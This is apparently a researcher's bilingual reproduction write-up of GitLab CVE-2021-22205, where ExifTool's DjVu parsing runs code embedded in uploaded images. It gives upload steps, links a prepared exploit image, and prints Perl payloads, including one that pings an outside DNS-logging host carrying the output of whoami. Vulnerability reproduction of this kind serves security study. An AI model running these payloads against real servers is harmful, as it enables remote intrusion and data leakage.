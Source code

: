 ```yaml
---
layout: about
category: about
Researchname: GitLab CVE-2021-22205 snippet RCE
toc: true
permalink: /about/Gitlab-RCE-with-snippet-function/
author: Bin4xin
desc: 「Gitlab」
---
```


### 复现

- Create a new snippet
- 登录创建一个仓库，并且创建新的`snippet`
- In the description field, hit `"Attach a file"`; Select and uplaod echo_vakzz.jpg
- [`echo_vakzz.jpg`](https://github.com/Bin4xin/bigger-than-bigger/blob/master/CoVV/Gitlab/CVE-2021-22205/echo_vakzz.jpg){:target="_blank"}上传附件
- See that the file /tmp/vakzz has been created on the server

也可以通过未授权RCE，具体可以查看[(CVE-2021-22205)RCE - 七、手工复现-未授权](https://www.freebuf.com/articles/web/303375.html){:target="_blank"}

> 制作rce图片可直接编辑，修改下面的代码就好；或者上面的文章中
>
> **[六、手工复现-有授权 - 2 DjVu格式图片制作方式]**
>
> 也有相应的制作方法。

```ruby
qx{ping `whoami`.5pxha.i3ntq7.bnslog.top}
```

### 效果

![May-18-2022-11-27-15.gif](https://image.yjs2635.xyz/images/2022/05/18/May-18-2022-11-27-15.gif)

### 分析

如作者在报告里所说：

- When uploading image files, GitLab Workhorse passes any files with the extensions `[jpg|jpeg|tiff]` through to ExifTool to remove any non-whitelisted tags.
- 上传图像文件时，`GitLab Workhorse` 会将任何扩展名为 `jpg|jpeg|tiff` 的文件传递给 `ExifTool`，以删除任何未列入白名单的标签。

```go
func IsExifFile(filename string) bool {
	filenameMatch := regexp.MustCompile(`(?i)\.(jpg|jpeg|tiff)$`)

	return filenameMatch.MatchString(filename)
}
```

- One of the supported formats is DjVu. When parsing the DjVu annotation, the tokens are evaled to "convert C escape sequences".

```perl
(metadata
	(Copyright "\
" . qx{echo vakzz >/tmp/vakzz} . \
" b ") )
```

### 参考

- [HackerOne - RCE when removing metadata with ExifTool](https://hackerone.com/reports/1154542){:target="_blank"}
- [GitLab 远程命令执行漏洞复现(CVE-2021-22205)](https://www.freebuf.com/articles/web/303375.html){:target="_blank"}